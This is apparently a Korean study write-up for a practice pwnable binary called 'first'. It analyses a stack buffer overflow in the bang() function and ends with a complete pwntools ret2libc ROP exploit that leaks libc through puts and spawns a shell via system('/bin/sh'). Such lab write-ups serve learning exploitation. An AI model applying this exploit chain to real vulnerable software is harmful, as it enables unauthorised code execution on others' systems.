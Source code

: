 # first 문제 풀이

- 라젠카 ROP(x64)를 참고하여 실습을 진행할 예정이다.



## Proof of concept

### checksec

![image](https://user-images.githubusercontent.com/59410565/119918504-924c9900-bfa3-11eb-9374-0d51887d1700.png)

64bit 파일이고, Partial RELRO와 NX가 적용되어 있다. 따라서 함수 호출 시 해당 함수의 주소의 알아오고, 이를 이용하여 NX bit를 우회하는 ROP 공격을 할 수 있을 것 같다.



### IDA

> main() 함수

![image](https://user-images.githubusercontent.com/59410565/119919504-8e217b00-bfa5-11eb-8615-ebe43920b4f9.png)

"This is my FIRST PWNABLE!!"을 출력하고 load(0xA(=10))을 반환한다.

> load() 함수

![image](https://user-images.githubusercontent.com/59410565/119919215-ead06600-bfa4-11eb-9269-2f3118c60d1f.png)

v2에 인자로 전달받은 a1(10)을 대입하고, "How Many Bullets do you have?"를 출력한다. v3을 입력받고 만약 a1이 v3보다  크다면 v2의 값을 v3으로 바꿔준다. 그리고 v2의 값과 함께 "You have %dbullets\n"을 출력한다.

> bang() 함수

![image](https://user-images.githubusercontent.com/59410565/119919241-f9b71880-bfa4-11eb-938b-1b4dab1d54d3.png)

"Who is your Target?"을 출력하고 read() 함수를 사용해 0x64(100)만큼 입력을 받는다. 이때 buf의 크기보다 더 많은 값을 입력받아 overflow가 발생한다.



### GDB

![image](https://user-images.githubusercontent.com/59410565/119920224-ec9b2900-bfa6-11eb-8cd3-221612dfee3e.png)

**[Break Point]**

- bang+0 : bang() 함수 코드 첫 부분
- bang+35 : read() 함수 호출 전

![image](https://user-images.githubusercontent.com/59410565/119922976-d80d5f80-bfab-11eb-85db-77e3679bdecc.png)

![image](https://user-images.githubusercontent.com/59410565/119923010-e5c2e500-bfab-11eb-858f-75d0e5648814.png)

Return address(0x7ffe3acb7838) - buf 변수의 시작 주소(0x7ffe3acb7820) = 24. 즉, 24개 이상의 문자를 입력함으로써 RET을 변조할 수 있다.



### plt, got 주소 찾기 - read, scanf

> pwntools를 사용하여 주소를 출력하기

```python
from pwn import *

e = ELF("./first")
print("read@plt : " + str(hex(e.plt["read"])))
print("read@got : " + str(hex(e.got["read"])))
print("scanf@plt : " + str(hex(e.plt["scanf"])))
print("scanf@got : " + str(hex(e.got["scanf"])))
```

![image](https://user-images.githubusercontent.com/59410565/119924153-0429e000-bfae-11eb-867d-da5810237daf.png)



### "/bin/sh" 찾기

![image](https://user-images.githubusercontent.com/59410565/119925390-52d87980-bfb0-11eb-8b4b-522a0985219e.png)

![image](https://user-images.githubusercontent.com/59410565/119925478-80bdbe00-bfb0-11eb-8e01-04d5e538bb48.png)

"/bin/sh"의 offset은 0x18ce57이다.



### 쓰기 가능한 영역 찾기

![image](https://user-images.githubusercontent.com/59410565/119924420-831f1880-bfae-11eb-8007-3bf54ff6a305.png)

해당 바이너리의 0x601000 ~ 0x602000 영역에 쓰기 권한이 부여되어 있다.

![image](https://user-images.githubusercontent.com/59410565/119924479-9d58f680-bfae-11eb-83a2-cb03b42d629e.png)

![image](https://user-images.githubusercontent.com/59410565/119924522-b5307a80-bfae-11eb-94df-db3f37bf5ff4.png)

.got.plt / .data / .bss 가 앞에서 확인한 쓰기 가능한 영역에 포함되어 있다.



### 가젯 찾기

> rp++

![image](https://user-images.githubusercontent.com/59410565/119924702-0ccee600-bfaf-11eb-8b49-9425e540b6d4.png)

> ROPgadget

![image-20210528122102639](C:\Users\hyera\AppData\Roaming\Typora\typora-user-images\image-20210528122102639.png)



### system() 주소 찾기

![image](https://user-images.githubusercontent.com/59410565/119926112-b44d1800-bfb1-11eb-89ab-f2025c83543f.png)



### Exploit

------

#### Exploit 순서

```
- puts.plt에 read.got를 넣어 leak
- elf.libc.symbols['**']로 **의 주소를 가져온다. 
- u64(r.recvuntil("\x7f")[-6:].ljust(8, '\x00'))
	-> u64 : 리틀 엔디안으로 패킹된 문자열을 언패킹 해서 int형으로 반환(주로 메모리 릭을 하여 얻은 주소에 사용)
	-> ljust : leak 주소가 8byte를 모두 차지하고 있지 않으면 빈 공간을 "\x00"으로 채워주는 역할
```



#### Exploit code

> elf.symbols[] : 바이너리 함수 내에서 정의된 함수의 주소
>
> a.plt(b.got) >> b의 주소를 a의 plt에 

```python
from struct import *
 
#context.log_level = 'debug'
r = process('./first')
e = ELF("./first")
  
libcbase_read_offset = e.libc.symbols['read']
print(hex(libcbase_read_offset))
libcbase_system_offset = 0x453a0

binsh_offset = 0x18ce57 

pop_rdi_ret = 0x400713

puts_plt = e.plt['puts']
read_got = e.got['read']
bang = e.symbols['bang']

payload = "A"*24
payload += p64(pop_rdi_ret)
payload += p64(read_got)
payload += p64(puts_plt)
payload += p64(bang)

r.sendlineafter("have?\n",p64(1))
r.sendafter("Target?\n", payload)

read_addr = u64(r.recvuntil("\x7f")[-6:].ljust(8, '\x00'))
libcbase = read_addr - libcbase_read_offset
print(hex(read_addr))

payload = "A"*24
payload += p64(pop_rdi_ret)
payload += p64(libcbase + binsh_offset)
payload += p64(libcbase + libcbase_system_offset)

r.send(payload)
r.interactive()
```

결과

![image](https://user-images.githubusercontent.com/59410565/119938225-08aec280-bfc7-11eb-9a1a-b44f26e37d32.png)
